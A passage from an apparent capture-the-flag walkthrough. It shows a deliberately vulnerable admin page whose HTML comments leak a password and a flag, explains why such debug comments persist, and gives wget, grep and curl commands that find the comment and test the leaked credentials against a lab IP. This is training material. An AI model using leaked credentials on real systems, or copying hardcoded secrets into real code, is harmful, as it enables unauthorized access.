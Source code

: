 **Source Code**:
```html
<html>
<head><title>Vulnerable App</title></head>
<body>
<h1>Admin Panel</h1>
<!-- TODO: Remove debug info before production -->
<!-- Admin password: Password123! -->
<!-- FLAG{A***********3} -->
<form method="GET">
    Username: <input type="text" name="user"><br>
    Password: <input type="password" name="pass"><br>
    <input type="submit" value="Login">
</form>
</body>
</html>
```

**🎯 FLAG 25 FOUND**: FLAG{A**********3} - In HTML comment

**Critical Finding**: Admin password revealed: `Password123!`

#### Why This Vulnerability Exists

**Common Developer Mistakes**:
1. **Debug Information**: Developers leave debug comments
2. **TODO Comments**: Remind themselves of security fixes never implemented
3. **Credential Storage**: Hardcoded credentials for testing
4. **Version Information**: Reveals vulnerable components

#### Alternative Discovery Methods

```bash
# Search for comments in all web files
┌──(kali㉿kali)-[~]
└─$ wget -r -l 1 http://192.168.148.101/vulnapp/ 2>/dev/null
└─$ grep -r "<!--" 192.168.148.101/ 2>/dev/null

# Using browser developer tools
# F12 → Sources → Search for: password, admin, flag, todo
```

**Proof of Concept - Testing the Credentials**:

```bash
# Test the discovered credentials
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.148.101/vulnapp/login.html \
    -d "user=admin&pass=Password123!"
```

---

## Phase 4: Initial Access
